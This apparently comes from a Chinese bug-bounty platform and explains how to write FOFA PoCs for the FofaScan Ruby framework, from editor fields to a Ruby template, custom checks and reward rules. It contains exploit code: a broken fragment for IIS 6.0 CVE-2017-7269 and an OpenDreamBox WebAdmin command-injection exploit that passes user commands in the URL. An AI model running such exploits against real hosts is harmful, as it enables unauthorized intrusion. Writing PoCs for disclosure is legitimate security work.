










仅需要了解http协议即可可视化编辑初级PoC，无需懂相关编程语言：）
 所有的字段都是必填项，要注意的是以下几点：
标题：此字段应以"产品名 [版本] 漏洞文件名 漏洞名 "格式保存,版本号为可选项，如无法确认版本可省略，例如：WordPress全版本upload.php任意文件上传.
发现日期：此字段对应的是漏洞的披露时间，FOFA客户端会给一个默认值为当前日期，但是需要注意修改为正确的漏洞披露时间，如果是0day就无需更改。
来源：此字段对应的是在哪里披露此漏洞详情的，注意修改。
漏洞等级：级别为严重、高危、中危、低危，白帽子通过实际的情况判断漏洞等级。
FOFA查询规则：在产品字段输入相应的产品名，如果自动补全了产品名，双击补全的产品名之后，对应的FOFA查询规则也会补全。如果没有自动补全，则需要手动构造FOFA查询规则，构造方法见：FOFA首页
填写第一个要发送的request请求：Request

所有的字段都是必填项，要注意的是以下几点：
填写第一个要验证的response响应：ResponseTest
小提示：右键测试组可新增测试组或测试项、右键测试项可删除或剪切测试项

所有的字段都是必填项，要注意的是以下几点：
点击请求组右方的➕（加号）可继续添加Request／ResponseTest.
将自己本地搭建的漏洞环境或互联网上已存在的漏洞案例进行测试 
仅需要了解http协议以及变量的概念即可可视化编辑初级PoC，无需懂相关编程语言：）
设置变量

第一个输入框为要设置的变量名
第二个输入框为正则表达式，括号内为要赋给变量的值
第三个下拉框表示要从哪取值：
使用变量

使用变量需要{{{变量名}}}此格式才能正确调用
只能使用上个请求取的变量，不能使用本次请求取的变量
需要了解http协议、ruby编程、socket网络编程
ruby fofascan.rb，没配置则需要使用ruby的绝对路径或者相对路径，FOFA客户端目录下附带了ruby，可直接使用。
FOFA PoC的本质的一个ruby脚本
FOFA PoC依赖于FofaScan框架（开源，源码位于程序目录的fofalib下）
require 'fofa_core'
class FofaExploits < Fofa::Exploit
def get_info
{
"Name": "Exploit Name",
"Description": "Exploit Description",
"Product": "",
"Homepage": "https://fofa.so/",
"DisclosureDate": "2017-06-02",
"Author": "xxx",
"FofaQuery": "",
"References": "[\"https://fofa.so/\"]",
"ScanSteps": [
"AND",
{
"Request": {
"method": "GET",
"uri": "/test.php",
"header": {},
"data": ""
},
"ResponseTest": {
"type": "group",
"operation": "AND",
"checks": [
{
"type": "item",
"variable": "$code",
"operation": "==",
"value": "200",
"bz": ""
},
{
"type": "item",
"variable": "$body",
"operation": "contains",
"value": "test",
"bz": ""
}
]
},
"SetVariable": [
"cookie|statusline|regex|Set-Cookie:(.*?)"
]
},
{
"Request": {
"method": "GET",
"uri": "/test.php",
"header": {},
"data": ""
},
"ResponseTest": {
"type": "group",
"operation": "AND",
"checks": [
{
"type": "item",
"variable": "$code",
"operation": "==",
"value": "200",
"bz": ""
},
{
"type": "item",
"variable": "$body",
"operation": "contains",
"value": "test",
"bz": ""
}
]
},
"SetVariable": []
}
],
"fofacliversion": "1.0.15",
"Posttime": "2017-06-02 18:21:05",
"status": 0
}
end
def initialize(info = {})
super( info.merge(get_info()) )
end
def vulnerable(hostinfo)
excute_scansteps(hostinfo) if @info['ScanSteps']
end
def exploit(hostinfo)
end
end
def vulnerable(hostinfo)
excute_scansteps(hostinfo) if @info['ScanSteps']
end
如果您熟悉ruby，大概一眼就能看出来，vulnerable函数实际时调用了FOFA PoC get_info函数中的ScanSteps
在ScanSteps不满足PoC需要的时候，您大可以把excute_scansteps(hostinfo) if @info['ScanSteps']这行代码删除，FOFA PoC中编辑的测试步骤（ScanSteps）就无效了，直接用ruby脚本进行发包以及验证（不能引入第三方gem包），最终要return一个true或false。
如果想在请求中使用随机数，或者其他的“活”的字符串，但又不想写原生的ruby http代码，怎么办呢。例如我想让Referer是随机数，可以如下:
def vulnerable(hostinfo)
info['ScanSteps'][1]["Request"]["header"]["Referer"]= rand(500).to_s
excute_scansteps(hostinfo) if @info['ScanSteps']
end
思路：自定义vulnerable函数，使用ruby编写socket程序
案例如下：IIS6.0 cve-2017-7269 远程溢出 FOFA PoC
def vulnerable(hostinfo)
hostinfo = "http://"+hostinfo if !hostinfo.start_with?"http"
hostinfo = URI(hostinfo)
buf1 = "If: "
buf1 << " (Not ) \r\n\r\n")
res = sock.recv(1024)
if res.include?"HHIT CVE-2017-7269 Success"
return TRUE
end
sock.close_write
}
return FALSE
end
思路：点击验证框，勾选漏洞验证，定义要接受的参数的名称、值。然后在exploit模块接受命令和参数利用。

勾选漏洞验证后，添加完参数，会在FOFA PoC 的get_info函数生成以下json字段，对应我们填写的参数名称和值。
"HasExp": true,
"ExpParams": [
{
"name": "cmd",
"type": "textarea",
"value": "whoami"
}
]
案例如下：OpenDreamBox 2.0.0 - Plugin WebAdmin 远程命令执行
def exploit(hostinfo)
host, port = hostinfo.split(":")
http = Net::HTTP.new(host, port)
http.open_timeout = 10
cmd = fetch_cfg('cmd')
path = "/webadmin/script?command=|#{cmd}"
resp = http.get(path)
out = { "state": 1, "progress": 30, "output": "", "error": "" }
puts out.to_json
body = resp.body.force_encoding('UTF-8')
if body&&body.empty?
out = { "state": 3, "progress": 100, "output": body, "error": "failed" }
puts out.to_json
else body.include? "bin/sh: /usr/script/: Permission denied"
out = { "state": 2, "progress": 100, "output": body, "error": "failed" }
puts out.to_json
end
{}
编写exploit模块的时候，用 cmd = fetch_cfg('cmd') 接收json中的ExpParams中命令参数的值。 页面中需要返回一个json，确保fofascan不会出错。返回的结果可根据实际情况渲染、匹配正确的结果。
out = { "state": 1, "progress": 30, "output": "", "error": "" }
json的格式说明，"state"："1" 表示命令执行中，"state"："2" 表示执行完成，"state"："3" 表示执行失败。 后续版本会完善漏洞利用模块，在客户端展示，目前仅支持命令行利用。
展示效果如下： 
文件名中不能含有除a-z(所有小写英文字母) A-Z(所有大写英文字母) _(下划线) .(英文句号)意外的任何字符。
保存的文件名应以“产品名_漏洞文件名_漏洞名.rb” 的格式保存，例如：WordPress core.php文件 sql注入，则文件名应为Wordpress_core.php_sqli.rb
一个PoC审核通过之后获得首次奖励，奖励额为PoC的价格。
有企业购买PoC之后可获得二次奖励，奖励额为PoC价格的50%。
需要进行实名认证，认证步骤：
登陆FOFA.SO->个人中心->财务中心->银行卡->添加银行卡，绑定银行卡。
提交身份证正反面、手持身份证照片至service@baimaohui.net